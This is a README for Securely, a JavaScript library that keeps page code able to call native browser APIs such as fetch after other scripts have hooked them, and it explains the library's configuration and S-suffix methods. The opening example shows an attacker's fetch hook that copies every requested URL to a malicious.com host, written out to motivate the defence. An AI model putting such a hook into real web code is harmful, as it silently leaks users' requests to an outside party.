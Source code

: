 # Securely

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app:

```html
<script src="./securely.prod.js"></script>
```

You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

* `@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
* `@config` - an object indicating the native APIs you wish to have access to
* `@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are `objects`:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

// securely use them

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```

But if you wish to secure properties/methods of `prototypes`, you can achieve that as well:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
    
    },
    prototypes: {
        'Array': ['includes', 'push', 'slice'],
    }
});

// securely use them

const result = securely(_ => {
  const arr = ['a', 'b', 'c'];
  if (arr.includesS('b')) {
    return arr.sliceS(2);
  }
});
```

## Securely Technically Explained (What's the `S` suffix for?)

You may have noticed that in order to use your secured natives, not only that you have to do so from within the `securely` callback, but you also have to call your native API with an `S` suffix.

This is because while allowing access to native APIs we wish to maintain the possibility to access the normal state of those APIs within the web app (whether if they were hooked by anyone or not).

Hooking is a common practice that many third party vendors do in order to provide their services, and in many cases in order for the app to work smoothly it needs to go through such hooked APIs.

So in order to not harm the web app ecosystem, we choose to not alter but to append the securely functionallity. 
We do that by adding `S` to the end of the desired native API.

So if for example you wish to call fetch normally and go through any potential hook, you do so the way you're used to:

```javascript
fetch('https://example.com/this_is_just_a_normal_request');
```

But if you want to call fetch and this time make sure to avoid any potential hooks (whether or not malicious), that's where securely comes in:

```javascript
securely(_ => fetchS('https://example.com/this_request_is_extra_sensitive'));
```

Accessing `S` APIs is disabled outside of the `securely` callback. This is another important security mechanizm.
Not only that we want to have access to native APIs, but we want to make sure no other js code in runtime has such access (unless we want it to have that ability, in which case we'll pass the `securely` function on to it).

Native APIs can be used by attackers who managed to execute code within the app maliciously, and we just don't want anyone to have such an ability without specifically authorizing it.

That is why the `S` APIs are not accessible outside of the `securely` callback:

```javascript
console.log(fetchS); // undefined
securely(_ => console.log(fetchS)); // ƒ fetch() { [native code] }
console.log(fetchS); // undefined
```
